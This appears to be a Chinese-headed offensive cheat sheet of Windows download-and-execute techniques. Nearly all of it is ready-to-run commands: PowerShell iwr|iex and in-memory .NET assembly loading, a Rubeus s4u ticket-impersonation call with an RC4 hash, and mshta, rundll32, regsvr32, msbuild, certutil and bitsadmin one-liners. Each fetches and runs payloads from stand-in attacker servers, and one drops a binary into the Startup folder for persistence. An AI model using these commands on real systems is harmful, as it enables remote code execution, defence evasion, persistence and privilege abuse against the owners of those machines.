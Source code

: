   #### PowerShell
  	从HTTP服务器
  	>powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

	只下载
	(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")
	Invoke-WebRequest "http://10.10.10.10/binary.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\binary.exe"

	下载并执行带参数的Rubeus
	$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/Rubeus.exe')
	$assem = [System.Reflection.Assembly]::Load($data)
	[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

	从程序集中执行特定方法
	$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/lib.dll')
	$assem = [System.Reflection.Assembly]::Load($data)
	$class = $assem.GetType("ClassLibrary1.Class1")
	$method = $class.GetMethod("runner")
	$method.Invoke(0, $null)
	从webdav服务器
	>powershell -exec bypass -f \\webdavserver\folder\payload.ps1
  #### CMD
  	>cmd.exe /k < \\webdavserver\folder\batchfile.txt
  #### Cscript / Wscript
  	>cscript //E:jscript \\webdavserver\folder\payload.txt
  #### Mshta
  	>mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
	>mshta http://webserver/payload.hta
	>mshta \\webdavserver\folder\payload.hta
  #### Rundll32
  	>rundll32 \\webdavserver\folder\payload.dll,entrypoint
	>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
  #### Regasm / Regsvc
  	>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll
  #### Regsvr32
  	>regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
	>regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
  #### Odbcconf
  	>odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
  #### Msbuild
  	>cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
  #### Certutil
  	>certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
	>certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
  #### Bitsadmin
  	>bitsadmin /transfer mydownloadjob /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe